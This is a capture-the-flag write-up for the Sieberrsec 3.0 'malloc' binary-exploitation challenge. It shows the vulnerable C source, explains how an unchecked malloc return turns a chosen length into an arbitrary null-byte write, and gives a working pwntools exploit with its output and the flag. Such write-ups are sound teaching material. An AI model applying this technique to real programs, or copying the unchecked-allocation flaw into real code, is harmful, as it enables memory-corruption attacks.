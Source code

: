 ```yaml
---
title: "Sieberrsec 3.0 CTF (2021) - Malloc (Pwn)"
header:
  overlay_image: /assets/images/sieberrsec3.0/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Sieberrsec 3.0 CTF Organisers"

tags:
  - sieberrsec
  - writeup
  - pwn
  - malloc
  - null dereference
---
```


Summary: Control of the size parameter to malloc and a subsequent lack of checking that the returned
pointer is not 0 leads to an arbitrary null byte write to sensitive addresses such as a global
variable. This variable is then used in a check condition to allow the printing of a flag.

## Challenge Prompt

```c
malloc
Binary Exploitation

Solves (2) - 400 Points

Can you somehow get the flag? Have fun!

nc challs.sieberrsec.tech 1470

#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

// cc malloc.c -o malloc -fstack-protector-all
int main(void)
{
	// Variables
	int *arr; // int pointer to an array
	char *msg; // C-string to store your message
	size_t length = 0;

	// Welcome message
	puts("Welcome to Sieberrsec CTF!");

	// Allocates 123456 bytes of memory
	arr = (int *)malloc(123456);

	// Sets first element of arr to 1
	arr[0] = 1;

	// Leaks the memory address of arr
	printf("Leak: %p\n", arr);

	// Gets length of your message
	printf("Length of your message: ");
	scanf("%lu", &length);

	// Allocates memory to store your message as a C-string
	// +1 is to store the null-byte that ends the string
	msg = malloc(length + 1);

	// Reads length bytes of input into msg
	printf("Enter your message: ");
	read(0, msg, length);

	// Null-byte to end the string
	msg[length] = 0;

	// Write length bytes from msg
	write(1, msg, length);

	// Your goal: somehow make arr[0] == 0
	if (arr[0] == 0) {
		system("cat flag");
	}
	return 0;
}

```

## Solution

First, we compile the program according to the challenge prompt.

```console
$ cc malloc.c -o malloc -fstack-protector-all
```

We can run this without any buffering with the following command. From the source code and the
dynamic behaviour of the program, we can observe that there should not be any buffer overflow issues
here since the calculation of the length appears to be sound and no integer type confusion is
occurring.

```console
$ stdbuf -i0 -o0 -e0 ./malloc
Welcome to Sieberrsec CTF!
Leak: 0x1cb9010
Length of your message: 100
Enter your message: AAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAA
```

Instead, the issue here is that the return value of malloc is not checked. On any sufficiently large
size provided, the return value of the call will return zero.

```console
$ $ ltrace ./malloc
__libc_start_main(0x400766, 1, 0x7fff90b069b8, 0x400870 <unfinished ...>
puts("Welcome to Sieberrsec CTF!"Welcome to Sieberrsec CTF!
)                                           = 27
malloc(123456)                                                               = 0x1588420
printf("Leak: %p\n", 0x1588420Leak: 0x1588420
)                                              = 16
printf("Length of your message: ")                                           = 24
__isoc99_scanf(0x400932, 0x7fff90b068b0, 0x7f73d935b780, 24Length of your message: 9999999999999
)                 = 1
malloc(10000000000000)                                                       = 0
printf("Enter your message: ")                                               = 20
read(0A
, nil, 9999999999999)                                                  = -1
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

This behaviour in conjunction with the following line of code gives us an arbitrary zero byte write
primitive to any address.

```c
	// Null-byte to end the string
	msg[length] = 0;
```

Since the goal is to write to this array using the leaked address, we can use the primitive by
simply providing the leaked address as the length. This eventually resolves to `&0[leak] = 0`
which writes a zero byte to the exact address we require.

```c
    // Allocates 123456 bytes of memory
	arr = (int *)malloc(123456);

	// Sets first element of arr to 1
	arr[0] = 1;

	// Leaks the memory address of arr
	printf("Leak: %p\n", arr);

    ...

	// Your goal: somehow make arr[0] == 0
	if (arr[0] == 0) {
		system("cat flag");
	}
	return 0;
```

Putting this all together in an exploit gives us:

```python
#!/usr/bin/env python

from pwn import *


def main():
    p = remote('challs.sieberrsec.tech', 1470)

    # Get the leaked address.
    p.recvuntil(b'Leak: ')
    leak = int(p.recvline().strip(), 16)
    log.info('Leaked Address: {}'.format(hex(leak)))

    # Send the size of the leaked address to write a zero at it.
    log.info('Allocating {} bytes.'.format(leak))
    p.sendline(str(leak).encode())

    # Send a bogus message.
    p.recvuntil(b'Enter your message: ')
    log.info('Sending bogus message')
    p.sendline(b'amon')

    # Get the flag.
    flag = p.recvline().strip()
    log.success('Flag: {}'.format(flag.decode()))


if __name__ == '__main__':
    main()
```

Running the script gives us the flag:

```console
$ python exploit.py
[+] Opening connection to challs.sieberrsec.tech on port 1470: Done
[*] Leaked Address: 0x55f3fd5952a0
[*] Allocating 94506415903392 bytes.
[*] Sending bogus message
[+] Flag: IRS{Y0U_4R3_4W350M3_CJAVFSHA}
[*] Closed connection to challs.sieberrsec.tech port 1470
```

**Flag:** `IRS{Y0U_4R3_4W350M3_CJAVFSHA}`
